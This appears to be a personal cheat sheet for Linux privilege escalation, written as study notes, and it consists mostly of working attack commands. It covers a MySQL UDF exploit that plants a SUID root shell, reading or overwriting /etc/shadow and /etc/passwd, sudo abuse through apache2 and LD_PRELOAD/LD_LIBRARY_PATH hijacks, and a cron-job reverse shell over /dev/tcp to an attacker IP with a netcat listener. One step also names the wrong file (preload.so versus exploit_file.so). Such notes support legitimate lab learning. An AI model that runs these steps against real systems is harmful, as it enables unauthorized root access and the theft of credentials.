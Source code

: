 # Linux priv esculation

## MySQL exploit

This exploit works if MySQL is run in root mode.

Using this exploit (https://www.exploit-db.com/exploits/1518)

Complie the code using gcc:

~~~ 
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
~~~

Open MySQL and create a user defined function that runs system commands.

This creates a SUID in the tmp that when run esculates priviledge. 

~~~
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
~~~
 
## Readable /etc/shadow

Readable /etc/shadowcan copied and cracked by john

## Writeable /etc/shadow

Generate a new password and replace the root password

~~~
mkpasswd -m sha-512 <password here>

Put :7::: at the end
~~~

## Writable /etc/passwd file

Generate a new password hash:

~~~
openssl passwd <newpassword>
~~~

Then in the /etc/passwd file change root password hash (it will be an x).


## Sudo escape sequencies.

~~~
sudo -l 
~~~

Then use GTFOBins (https://gtfobins.github.io) to look for sudo privesc.

If apache2 can be used in sudo then run:

~~~
sudo apache2 -f /etc/shadow
~~~

This gives the password sha-512 for root.

## sudo enviornmental variables.

Sudo can be configured to inherit environment variables from the user's environment.

~~~
sudo -l
--------------------------------------------------------------
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
--------------------------------------------------------------
~~~

- LD_PRELOAD is an enviornmental variable that loads a shared object before anything else.
- LD_LIBRARY_PATH is an enviornmental variable that a provides a lists of dirs where shared librarys 
  are searched for.

### Abusing sudo enviornmental varaiables
 
Create a shared object (one that will spawn a root shell).

~~~
gcc -fPIC -shared -nostartfiles -o /tmp/exploit_file.so exploit_file.c
~~~

Change the LD_PRELOAD to the file while running a programme in sudo.

~~~
sudo LD_PRELOAD=/tmp/preload.so <programme>
~~~

This will then run the shared object.

**OR**

Use a shared sudo enviornment (LD_LIBRARY_PATH)

Find shared library for a programme

~~~
ldd /usr/sbin/apache2
~~~

Create a shared object (that gives root access).

~~~
gcc -o /tmp/exploit_file.so -shared -fPIC exploit_file.c
~~~

Then run the programme

~~~
sudo LD_LIBRARY_PATH=/tmp apache2
~~~

## CronJobs File permission

Change a cronjob that is running by root user to gain a shell.

First view cronjobs
~~~
cat /etc/crontab
~~~

Then check if any are writeable

~~~
ls -l (cronjob from etc/crontab list)
~~~

Replace content of one of them with reverse shell

~~~
#!/bin/bash
bash -i >& /dev/tcp/<ip address of host machine>/4444 0>&1
~~~

Have a netcat listener 

~~~
nc -lvnp 4444
~~~

and a root shell should spawn!!

#





